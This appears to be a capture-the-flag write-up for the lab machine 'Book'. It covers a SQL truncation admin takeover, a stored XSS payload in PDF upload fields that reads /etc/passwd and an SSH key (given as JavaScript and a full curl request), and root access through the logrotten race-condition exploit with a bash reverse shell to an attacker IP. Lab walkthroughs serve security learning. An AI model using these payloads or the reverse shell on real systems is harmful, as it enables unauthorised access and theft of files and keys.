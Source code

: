 # book : 10.10.10.176

**Table Of Contents:**

<!-- TOC -->

- [book : 10.10.10.176](#book--101010176)
  - [Credentials](#credentials)
  - [Synopsis](#synopsis)
  - [Enumeration](#enumeration)
    - [Opened Ports](#opened-ports)
  - [FootHold](#foothold)
  - [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Credentials


| Service |  Username  |      Password      |
| :-------: | :----------: | :-------------------: |
| db.php | book_admin | I_Hate_Book_Reading |
|  mysql  |   admin   |  Sup3r_S3cur3_P455  |

---

## Synopsis

The web server was vulnerable to sql truncation attack by which we login via admin@book.htb. Collection.php file was vulnerable to xss from which we read local file including reader's id_rsa key and we get in. Logrotate service was vulnerable to race condition by which we got root access on the server.

## Enumeration

### Opened Ports

- [X] 22 (SSH)
- [X] 80 (HTTP)

---

## FootHold

- The web server is running a site based on php where there are many functionality which we have to test.
- Admin signin page found (http://book.htb/admin/index.php) & Admin mail `admin@book.htb`
- On the signup page there is a limit on email field, possibly sql truncation attack.
- If register with email `rahul@ircashemircashem` which is of 22 character then it will automatically truncate the email to `rahul@ircashemircash` which is of 20 character. So, we discovered that there is a 20 character limit on email field on signup page.
- Register with email `admin@book.htb++++++anything`, the server will truncate the email to `admin@book.htb++++++` which you can use to signin to admin panel.
- When we upload a pdf, both the input field i.e book author and title is parsing html and javascript. Using javascript to read local files.

```javascript
<p id="write-here"></p>
<script>
    var res;
    req =  new XMLHttpRequest;
    req.onload=function(){
        res = this.responseText;
        document.getElementById('write-here').textContent=res;
    };
    req.open("GET","file:///etc/passwd");
    req.send();
</script> 
```

- READING /ETC/PASSWD File:

  ```bash
  curl -i -s -k -X $'POST' \
      -H $'Host: book.htb' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Content-Type: multipart/form-data; boundary=---------------------------155989631534787093513136849114' -H $'Content-Length: 1796' -H $'Origin: http://book.htb' -H $'DNT: 1' -H $'Connection: close' -H $'Referer: http://book.htb/collections.php' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-GPC: 1' \
      -b $'PHPSESSID=0j5ua1t8km43tcmme852iuk65k' \
      --data-binary $'-----------------------------155989631534787093513136849114\x0d\x0aContent-Disposition: form-data; name=\"title\"\x0d\x0a\x0d\x0a\x0d\x0a<p id=\"write-here\"> </p>\x0d\x0a<script>\x0d\x0ax=new XMLHttpRequest;\x0d\x0ax.onload=function(){\x0d\x0a\x09document.getElementById(\'write-here\').textContent=this.responseText;\x0d\x0a};\x0d\x0ax.open(\"GET\",\"file:///etc/passwd\");x.send();\x0d\x0a</script> \x0d\x0a \x0d\x0a-----------------------------155989631534787093513136849114\x0d\x0aContent-Disposition: form-data; name=\"author\"\x0d\x0a\x0d\x0aindex.php\x0d\x0a-----------------------------155989631534787093513136849114\x0d\x0aContent-Disposition: form-data; name=\"Upload\"; filename=\"root.log\"\x0d\x0aContent-Type: text/x-log\x0d\x0a\x0d\x0a/images               (Status: 301) [Size: 313] [--> http://10.10.10.176/images/]\x0a/admin                (Status: 301) [Size: 312] [--> http://10.10.10.176/admin/]\x0a/search.php           (Status: 302) [Size: 0] [--> index.php]\x0a/index.php            (Status: 200) [Size: 6800]\x0a/contact.php          (Status: 302) [Size: 0] [--> index.php]\x0a/download.php         (Status: 302) [Size: 0] [--> index.php]\x0a/profile.php          (Status: 302) [Size: 0] [--> index.php]\x0a/logout.php           (Status: 302) [Size: 0] [--> index.php]\x0a/docs                 (Status: 301) [Size: 311] [--> http://10.10.10.176/docs/]\x0a/home.php             (Status: 302) [Size: 0] [--> index.php]\x0a/db.php               (Status: 200) [Size: 0]\x0a/feedback.php         (Status: 302) [Size: 0] [--> index.php]\x0a/.                    (Status: 200) [Size: 6800]\x0a/settings.php         (Status: 302) [Size: 0] [--> index.php]\x0a/books.php            (Status: 302) [Size: 0] [--> index.php]\x0a/collections.php      (Status: 302) [Size: 0] [--> index.php]\x0a\x0d\x0a-----------------------------155989631534787093513136849114\x0d\x0aContent-Disposition: form-data; name=\"Upload\"\x0d\x0a\x0d\x0aUpload\x0d\x0a-----------------------------155989631534787093513136849114--\x0d\x0a' \
      $'http://book.htb/collections.php'
  ```
- Now got to know about user `reader`. Reading his id_rsa key. One problem arised.
- The id_rsa pdf is not showing the content properly. Converting the pdf to text didn't help but converting to html did help. Got `reader` user ✌️

---

## Privilege Escalation

logrotate is running on the server. The version was 3.11.0 which is less than 3.15.0. All the versions below 3.15.0 of logrotate vulnerable to logrotate race conditions [(Reference)](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)

```bash
2021/06/28 20:46:21 CMD: UID=0    PID=17126  | /usr/sbin/logrotate -f /root/log.cfg                                          
```

- Reader's home directory is containing the access.log and access.log.1 file which is already rotated once. To confirm whether logrotate is rotating this file or not, we can rename the access.log.1 to access.log and check if logrotate again generates the access.log.1 file.

```bash
reader@book:~$ ls -la backups/
total 12
drwxr-xr-x 2 reader reader 4096 Jun 29 06:50 .
drwxr-xr-x 7 reader reader 4096 Jun 29 06:50 ..
-rw-r--r-- 1 reader reader    0 Jun 29 06:50 access.log
-rw-r--r-- 1 reader reader   91 Jun 29 06:50 access.log.1
```

- Exploiting to gain access to root with [logrotten](https://github.com/whotwagner/logrotten)
- Payload file `payloadfile`

```text
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.14.16/9009 0>&1"
```

```bash
reader@book:/dev/shm$ mv ~/backups/access.log.1 ~/backups/access.log; ./logrotten -p ./payloadfile  ~/backups/access.log

```

---
